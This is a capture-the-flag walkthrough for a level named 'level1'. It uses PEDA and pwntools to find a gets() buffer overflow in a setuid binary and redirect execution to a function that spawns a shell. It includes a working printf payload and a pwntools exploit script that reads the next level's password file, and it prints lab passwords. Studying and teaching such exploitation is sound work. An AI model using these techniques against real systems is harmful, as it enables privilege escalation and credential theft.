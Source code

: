 # Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

To analyze the binary file we copy it to the host with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level1@localhost:/home/user/level1/level1 .
```

### PEDA

In order to use `PEDA` can just run it inside docker.
```bash
./peda.sh level1
# or
docker run -it -v "$abs_path":/mnt/binary gdb-peda-image bash -c "gdb -q /mnt/binary"
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function.

![disassembled main](../docs/level1.peda.main.png)

We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function

![info functions](../docs/level1.peda.info_functions.png)

From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```

![run function](../docs/level1.peda.run.png)

Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We know that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution

Back to `PEDA`, we will use 2 commands:
- `pattern create`
- `pattern offset`

Before, we filled the buffer, and more, with an arbitrary number of our target address.
But say we want the offset between the begining of our buffer and the return address in the memory.
What we can do is:
- generate a long string with no similar subsequence of 4 characters `pattern create` [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- put it in the buffer
- look at the address called at program failure (it will be a sequence of 4 characters of the string)
- look at where in our string the subsequence appears
- count the number of characters before it `pattern offset`

![peda pattern create](../docs/level1.peda.pattern.png)

![peda pattern offset](../docs/level1.peda.offset.png)

With the following pattern, `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` the programs tries to execute the instructions at `0x41344141` or `"A4AA"`, which we find in the string only once.

We now know that the return address is 76 char after the start of the buffer.

We can use `pwntools`, and write an `exploit.py` script.

```python
from pwn import *

HOST = 'localhost'
PORT = 4243
# current level
USER = 'level1'
# pass for current level (in /home/user/{USER}/.pass)
PASS = '1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a'

def main():
    # creates a new ssh connection https://docs.pwntools.com/en/latest/tubes/ssh.html
    connection = ssh(host=HOST, port=PORT, user=USER, password=PASS)

    # requires python on remote server
    # binds to the binary /home/user/level1/level1
    process = connection.process(f'/home/user/{USER}/{USER}')

    # We know the offset is 76 from gdb exploration
    # We got 0x08048444 as the address of the first instruction of 'run'
    # The payload has to be 76 random char followed by the little endian form of the address
    payload = b'.'*76 + b'\x44\x84\x04\x08'

    process.sendline(payload)

    # Print the vm's stdout until first shell input
    print(process.recvuntil(b'$ '))

    process.sendline(b'cat /home/user/level2/.pass')
    # Print the flag
    print(process.recv())

main()
```

We will get the flag with
```bash
./pwntools.sh exploit.py
```
